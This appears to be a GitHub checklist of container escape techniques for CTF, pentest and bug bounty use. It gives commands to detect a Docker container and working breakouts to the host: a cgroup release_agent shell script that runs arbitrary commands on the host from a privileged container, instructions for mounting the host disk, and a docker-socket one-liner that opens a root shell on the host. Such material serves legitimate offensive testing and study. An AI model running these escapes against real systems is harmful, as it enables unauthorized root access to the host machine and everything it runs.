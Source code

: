 # Compromised Container Checklist

A list of things you can try if you're doing a CTF/Pentest/Bug bounty and find yourself in a container.

## Confirming you're in a container.

### Docker

- `ls -al /.dockerenv` - If this file exists, it's a strong indication you're in a container
- `ps -ef` - Not a definitive tell, but if there are no hardware management processes, it's a fair bet you're in a container
- `ip addr` - Again not definitive, but `172.17.0.0/16` is the default docker network, so if all you have is network stats, this is useful
- `ping host.docker.internal` - should respond if you're in a docker container

## Breaking out

### High level areas

- File mounts. What information can you see from the host
- Granted Capabilities. Do you have extra rights
- Kernel version. Is it a really old kernel which has known exploits.

### Tooling

[tools list here](tools_list.md)

### Manual breakout - privileged containers

If you find out from amicontained or similar that you are in a privileged container, some ways to breakout

From [this tweet](https://twitter.com/_fel1x/status/1151487051986087936) this is a shell script which runs commands on the underlying host from a privileged container.

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

save it as `escape.sh` and you can use it like

```bash
./escape.sh ps -ef
```

Another approach for privileged containers is just to mount the underlying root filesystem. Run the `mount` command to get a list of filesystems. Usually files like `/etc/resolv.conf` are mounted off the underlying node disk, so just find that disk and mount the entire thing under something like `/host` and it'll provide edit access to the node filesystem

### Manual breakout - Access to the Docker socket

If the tooling suggests that the Docker socket is available at `/var/run/docker.sock` then you can just get the docker CLI tool and run any docker command. To breakout use :-

* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.